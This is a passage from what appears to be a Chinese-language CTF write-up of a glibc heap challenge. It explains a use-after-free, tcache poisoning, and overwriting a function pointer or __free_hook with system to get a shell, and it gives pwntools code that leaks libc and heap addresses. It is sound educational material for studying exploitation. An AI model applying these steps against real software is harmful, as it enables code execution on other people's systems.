 每當程式呼叫 `release` 來釋放 Animal 佔用的資源時，卻沒有清空原本存放在變數中的記憶體位置，導致已經送回給 `glibc` 管理的 heap memory chunk 還可以被使用者使用，進而導致一連串的 Tcache Chain Poisoning, Unsortedbin leak libc address。有了 UAF 也可以透過控制分配記憶體的順序，讓同段記憶體區段同時有兩種解釋，寫入後執行。

其他還有幾個可利用的地方：

- 在 `buy` 中，使用者可以透過指定名字長度分配記憶體大小，導致攻擊者可以控制 `glibc` 管理 Heap Memory Chunk 的管理邏輯
- 寫入的方法沒有在使用者輸入尾巴加入 `\x00`（雖然從 `easyheap`, `beeftalk` 來說，即使有加也沒用），使用者可以輕易 Leak 出 Memory 中的數值

有了這些弱點就可以串起整條攻擊串鏈了。

### Pwn

三個提供的 Exploit 都有個共通的前置動作：

1. 透過可控的分配記憶體大小，創造出一塊被釋放後會送到 Unsortedbin 的記憶體，再透過 UAF 洩漏出 libc 的位置
2. Leak 出 Heap 的位置

在取的該有的記憶體位置後，有三種可行的路徑：

- 複寫 `Animal` 中的 `bark` Function Ptr 成 `system`，送進字串後達成 Get Shell 的目標
- 使用 `execve` 的 One Gedget 嘗試達成 Getshell 的目標，但因為 `rdx` 沒辦法滿足而失敗
- 複寫 `__free_hook` 中的值成 `system` 的位置，創建一塊有 `/bin/sh` 字串的記憶體後，釋放記憶體位置進而觸發 `__free_hook` 達成 Get Shell 的目標

#### Leak Libc 位置與 Heap 位置

因為 unsortedbin 實作上的關係，裡面的 Chunk 的連結是都是透過雙向 Linked List 實作的，所以在裡面的 Chunk 身上，`fd` 會帶有 `main_arena+96` (libc 2.31) 的值。所以我們可以透過洩漏這個數值，再手動計算出 libc 的 Base Address：

```python
buy(0, 0x410, 'dummy')
buy(1, 0x410, 'dummy') # 由於 freed chunk 相鄰 top chunk 時會觸發 consolidate，因此多放一塊 chk 來避免
release(0)
buy(0, 0x410, 'AAAAAAAA')
play(0)

r.recvuntil('A'*8)
# 從 bk 留下的 unsorted bin address 來 leak
libc = u64(r.recv(6).ljust(8, b'\x00')) - 0x1ebbe0
```

接著就可以計算出 `__free_hook`、`system`、`execve one gadget` 的位置。

當然為了要預測下一塊 heap chunk 位置或是維持 tcache chain 的正確性，`heap` 的位置能得到是最好的，而剛好 UAF 的緣故，Heap 的位置可以簡單得到：

```python
# 2. 再利用 UAF 去 leak tcache 的 fd，得到 heap address
buy(0, 0x10, 'dummy')
buy(1, 0x10, 'dummy')
release(0)
release(1)
play(1)
r.recvuntil('MEOW, I am a cute ')
heap = u64(r.recv(6).ljust(8, b'\x00')) - 0xb40
info(f"heap: {hex(heap)}")
```
